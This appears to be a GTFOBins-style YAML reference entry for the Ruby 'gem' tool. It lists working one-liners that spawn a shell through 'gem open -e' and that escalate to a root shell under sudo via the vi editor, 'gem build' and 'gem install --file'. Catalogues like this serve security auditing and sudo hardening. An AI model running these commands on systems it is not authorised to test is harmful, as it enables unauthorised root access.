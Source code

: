 ```yaml
---
functions:
  shell:
    - description: This spawns an interactive shell. Requires the name of an installed gem to be provided (`json` is usually installed).
      code: |
        gem open -e "/bin/sh -c /bin/sh" json
  sudo:
    - description: This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/). Requires the name of an installed gem to be provided (`json` is usually installed).
      code: |
        sudo gem open json
        :!/bin/sh
    - description: This executes an arbitrary command as the gem editor. Requires the name of an installed gem to be provided (`json` is usually installed).
    - code: |
        sudo gem open -e "/bin/sh -c /bin/sh" json
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
    - code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        sudo gem build $TF/x
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
    - code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        sudo gem install --file $TF/x
---
```

